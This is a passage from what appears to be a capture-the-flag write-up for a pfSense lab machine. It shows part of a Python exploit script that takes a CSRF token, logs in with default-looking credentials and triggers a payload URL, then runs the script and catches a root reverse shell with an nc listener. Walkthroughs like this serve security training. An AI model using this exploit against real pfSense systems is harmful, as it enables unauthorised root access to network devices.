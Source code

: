 ```python
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
            
```

After downloading we set up our listener and then run it with the following arguments.

```console
└──╼ [★]$ python3 sense.py --rhost 10.129.215.40 --lhost 10.10.14.41 --lport 1234 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
Nice it hangs and we get a shell!

```console
└──╼ [★]$ nc -lnvp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.215.40.
Ncat: Connection from 10.129.215.40:21244.
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# 
```
And both flags super quick!
